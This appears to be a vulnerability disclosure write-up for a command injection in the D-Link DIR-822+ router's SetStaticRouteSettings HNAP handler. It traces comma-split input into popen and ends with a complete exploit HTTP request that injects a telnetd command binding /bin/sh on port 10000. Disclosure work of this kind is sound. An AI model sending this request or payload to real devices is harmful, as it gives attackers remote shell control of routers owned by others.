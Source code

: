 # DIR-822+ Command Injection

## Overview

D-Link DIR-822+ V1.0.2 was found to contain a command injection in `SetStaticRouteSettings` function.  allows remote attackers to execute arbitrary commands via shell

![image-20231221212125407](D:\typora 图片\image-20231221212125407.png)

![image-20231221212129179](D:\typora 图片\image-20231221212129179.png)

## Vulnerability details

![image-20231221214813987](D:\typora 图片\image-20231221214813987.png)

Use ’，‘ to segment data from the `staticroute list` and pass in the `sub_437028` function

![image-20231221214821593](D:\typora 图片\image-20231221214821593.png)

This part of the data was directly passed in `FCGI_popen` without any filtering

![image-20231221215626633](D:\typora 图片\image-20231221215626633.png)

`FCGI_popen`Called `popen` to create a pipeline to execute the command.

![image-20231221220509945](D:\typora 图片\image-20231221220509945.png)

Based on the cause of the vulnerability, we only need to use commas to separate three addresses and the command to be executed. The final constructed EXP is as follows:

## EXP

```
POST /HNAP1/ HTTP/1.1
Host: 192.168.0.1
Content-Length: 50
Accept: application/json
HNAP_AUTH: 4EDFBBC3845CEF88B0CC7B5A5B9419EB 1703160655517
SOAPACTION: "http://purenetworks.com/HNAP1/SetStaticRouteSettings"
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36 Edg/120.0.0.0
Content-Type: application/json
Origin: http://192.168.0.1
Referer: http://192.168.0.1/Staticroute.html
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Cookie: uid=VtVTeClk; PrivateKey=990D6EA08F8E8583354AD9D96CB35450; timeout=56
Connection: close

{"SetStaticRouteSettings":{"staticroute_list":"192.168.1.1,255.255.255.255,192.168.0.1,`telnetd -l /bin/sh -p 10000 -b 0.0.0.0`"}}
```

![image-20231221220640871](D:\typora 图片\image-20231221220640871.png)

![image-20231221220705779](D:\typora 图片\image-20231221220705779.png)